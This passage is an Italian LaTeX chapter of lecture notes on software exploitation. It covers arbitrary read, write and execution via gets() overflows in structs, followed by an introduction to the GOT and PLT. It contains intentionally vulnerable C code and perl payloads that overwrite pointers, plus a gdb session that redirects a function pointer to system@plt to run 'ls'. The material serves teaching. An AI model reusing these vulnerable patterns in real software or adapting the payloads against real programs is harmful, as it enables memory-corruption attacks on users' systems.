\chapter{Smashing software}

\section{Memory Corruption}

\subsection{Arbitrary Read}
Un'\textbf{Arbitrary Read} è la possibilità di leggere qualsiasi parte della memoria (mappata) in processo.
Ecco un esempio di lettura arbitraria della memoria:
\begin{lstlisting}[language=C]
    uint32_t arbitrary_read(uint32_t *ptr) {
        return *ptr;
    }
\end{lstlisting}
Questo metodo ci aiuta a scoprire il valore del canarino e i valori di indirizzi generati dall'ASLR, nel caso ci fosse questo tipo di vulnerabilità saremo in grado di bypassare le protezioni citate.

Vediamone un esempio:
\begin{lstlisting}[language=C]
struct person {
    char age[4];
    char *name;
};
int main (...) {
    struct person a;
    a.name = malloc (20);
    printf("name?\n");
    gets(a.name);
    printf("age?\n");
    gets(a.age);
    printf("%s\n", a.name);
    return 0;
}
\end{lstlisting}
Schema delle variabili di una struct in memoria:
\newline

\begin{center}
    \begin{table}[h!]
        \centering
        \begin{tabular}{|c|}
            \hline
            a.age \\
            \hline
            \&a.name \\
            \hline
        \end{tabular}
    \end{table}
\end{center}

\begin{lema}[]{}{}
    Al contrario delle variabili nello stack che vengono salvata dal basso verso l'alto, quando nelle struct le variabili verranno salvate dall'alto verso il basso.
\end{lema}
Il seguente comando leggerà il contenuto della memoria all'indirizzo 0x43434343:
\begin{lstlisting}[language=bash]
    perl -e \ 'print "A\n","B"x20 ,"C"x4' | ./vuln
\end{lstlisting}

\subsection{Arbitrary write}
Analogamente all'arbitrary read vi è anche l'\textbf{arbitrary write}, che dà la possibilità di scrivere in una zona di memoria arbitraria qualunque purchè mappata nel processo.
\begin{lstlisting}[language=C]
    void arbitrary_write(uint32_t *ptr , uint32_t val) {
        *ptr = val;
    }
\end{lstlisting}
Al contrario della \textit{gets} che ha bisogno di sfondare tutto il buffer per raggiungere l''indirizzo di ritorno, grazie all'utilizzo dell'a.w. potremo leggere zone della memoria arbitrarie e contestualmente modificarle a nostro piacimento (ove possibile), questo ci aiiterà a eseguire codice nel programma, alterandone la sua esecuzione.

\begin{lstlisting}[language=C]
    struct person {
        char age [4];
        char *name;
    };

    int main (...) {
        struct person a;
        a.name = malloc (20);
        printf("age?\n");
        gets(a.age);
        printf("name?\n");
        gets(a.name);
        return 0;
    }
\end{lstlisting}

\begin{center}
    \begin{table}[h!]
        \centering
        \begin{tabular}{|c|}
            \hline
            age \\
            \hline
            name \\
            \hline
        \end{tabular}
    \end{table}
\end{center}

\begin{lstlisting}[language=bash]
    perl -e \ 'print "AAAACCCC\n","ciao" '| ./vuln
\end{lstlisting}
Grazie al precedente comando potremo scrivere la string "ciao" all'indirizzo di memoria 0x43434343.

\subsection{Arbitrary execution}
Oltre la scrittura e la lettura avremo anche l'esecuzione, che prende il nome di \textbf{Arbitrary execution}, ciò ci darà la possibilità di eseguire arbitrariamente qualunque parte della memoria mappata dal processo.
\begin{lstlisting}[language=C]
    void bark(char *s) {
        printf("woof %s!\n", s); 
    }

    struct animal {
        char name [4];
        void (*cry)( char *);
    };

    int main (...) {
        char s[128];
        struct animal dog;
        dog.cry = bark;
        gets(dog.name);
        gets(s);
        dog.cry(s);
    }
\end{lstlisting}
\begin{center}
    \begin{table}[h!]
        \centering
        \begin{tabular}{|c|}
            \hline
            name \\
            \hline
            cry() \\
            \hline
        \end{tabular}
    \end{table}
\end{center}

\begin{lstlisting}[language=bash]
    perl -e \ 'print "AAAACCCC\n","ls" '| ./vuln
\end{lstlisting}
Questo comando ci permetterà di eseguire porzione di codice inserito all'indirizzo 0x43434343, in questo caso \textit{ls}.

\begin{ex}
    \begin{lstlisting}[language=bash]
        echo "p system" | gdb -q ./vuln
        Reading symbols from ./vuln ... done.
        (gdb) $1 = 0x80483d0 <system@plt >
        $ perl -e 'print "AAAA\xd0\x83\x04\x08\n","ls" | ./vuln
        Name?
        Cry?
        vuln vuln.c
    \end{lstlisting}
    in questo esempio attraverso \textit{gdb} riusciremo a trovare l'indirizzo, sfruttandolo per eseguire \textit{ls}.
\end{ex}

\section{Librerie Dinamiche}

\subsection{Introduzione}
Una libreria dinamica è una porzione di codice che viene caricata nel binario subito prima dell'esecuzione del programma (runtime), questa metodologia ha molti vantaggi:
\begin{itemize}
    \item la condivisione del codice delle librerie solo se necessarie, e.g. avremo solo una copia del codice della printf in memoria;
    \item aggiornamento della libreria una volta per tutti i programmi che la implementano;
    \item si riduce sensibilmente la grandezza del binario finale.
\end{itemize}

\begin{figure}[h!]
    \centering
    
\includegraphics[width=.5\linewidth]{res/dynamic_libraries.png}
    \caption{}
\end{figure}

\subsection{GOT (Global Offset Table) e PLT (Procedure Linkage Table)}
Il programma, o una libreria, può essere caricata in un qualunque punto della memoria (anche per essere compatibile com ASLR).
Per fare questo si utilizza una \textbf{GOT (Global Offset Table)} che è caricata nel programma (attraverso il dynamic loader) questa si utilizza per avere gli indirizzi dei simboli.
La controparte inceve per caricare gli indirizzi delle funzioni si utilizza la \textbf{PLT (Procedure Linkage Table)}.

\begin{figure}[h!]
    \centering
    
\includegraphics[width=.5\linewidth]{res/GOT_PLT.png}
    \caption{}
\end{figure}

Il riferimento \textit{.got.plt} non è caricato a priori ma segue una politica di \textbf{lazy loading}, quando la funzione viene chiamata per la prima volta allora il sistema si preoccuperà di caricare la libreria necessaria, mentre il suo offset è caricate nella sezione.
Le procedure che caricano i valori nella \textit{.got.plt} sono caricate nella sezione \textit{.plt}.

\begin{figure}[h!]
    \centering
    
\includegraphics[width=.5\linewidth]{res/PLT_loading.png}
    \caption{}
\end{figure}

La prima chiamata della funzione porta al caricamento del codice in memoria, questa procedura avviene chiamando lo \textbf{\textit{stub del .plt}}, la entry del \textit{.got.plt} viene caricata con l'indirizzo dello stub .plt, lo stub effettuerà la sovrascrittura della entry del .got.plt.

\begin{minipage}{0.5\textwidth}
    \centering
    
\includegraphics[width=.5\linewidth]{res/PLT_loading2.png}
\end{minipage}
\begin{minipage}{0.5\textwidth}
    \centering
